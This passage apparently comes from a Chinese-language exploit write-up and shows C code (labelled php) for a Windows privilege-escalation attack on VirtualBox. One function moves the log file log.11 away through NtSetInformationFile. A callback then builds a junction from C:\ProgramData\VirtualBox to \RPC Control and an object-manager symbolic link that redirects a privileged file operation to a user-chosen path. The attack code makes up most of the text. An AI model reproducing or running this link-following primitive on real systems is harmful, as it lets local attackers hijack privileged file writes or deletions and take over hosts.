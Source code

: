 ```php
```

用来移动log.11到其他目录（等同于删除该文件）：

```php
// 将一个文件移动到一个新的位置
// 具体来说是移动到 C:\windows\temp 目录下的一个临时文件。该临时文件的名字是基于一个新生成的 UUID 创建的
BOOL Move(HANDLE hFile) {
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("[!] Invalid handle!\n");
        return FALSE;
    }
    wchar_t tmpfile[MAX_PATH] = { 0x0 };
    RPC_WSTR str_uuid;
    UUID uuid = { 0 };
    UuidCreate(&uuid);
    UuidToString(&uuid, &str_uuid);
    _swprintf(tmpfile, L"\\??\\C:\\windows\\temp\\%s", str_uuid);
    size_t buffer_sz = sizeof(FILE_RENAME_INFO) + (wcslen(tmpfile) * sizeof(wchar_t));
    FILE_RENAME_INFO* rename_info = (FILE_RENAME_INFO*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY | HEAP_GENERATE_EXCEPTIONS, buffer_sz);
    IO_STATUS_BLOCK io = { 0 };
    rename_info->ReplaceIfExists = TRUE;
    rename_info->RootDirectory = NULL;
    rename_info->Flags = 0x00000001 | 0x00000002 | 0x00000040;
    rename_info->FileNameLength = wcslen(tmpfile) * sizeof(wchar_t);
    memcpy(&rename_info->FileName[0], tmpfile, wcslen(tmpfile) * sizeof(wchar_t));
    NTSTATUS status = pNtSetInformationFile(hFile, &io, rename_info, buffer_sz, 65);
    if (status != 0) {
        return FALSE;
    }
    return TRUE;
}
```

cb0 创建连接点和对象管理器符号链接：

```php
void cb0() {

    if (!Move(h)) {
        printf("reached3\n");
        exit(1);
    }

    printf("reached2\n");

    // 创建连接点
    _swprintf(dir, L"C:\\ProgramData\\VirtualBox");
    if (!CreateJunction(BuildPath(dir), L"\\RPC Control")) {
        printf("[!] Exiting!\n");
        exit(1);
    }

    // 创建对象管理器符号链接
    WCHAR asdfasdf[MAX_PATH];
    _swprintf(asdfasdf, L"GLOBAL\\GLOBALROOT\\RPC Control\\%s", filen);
    if (!DosDeviceSymLink(asdfasdf, L"\\??\\C:\\Users\\root\\Downloads\\111.txt")) {
        printf("zxc\n");
    }

}
```
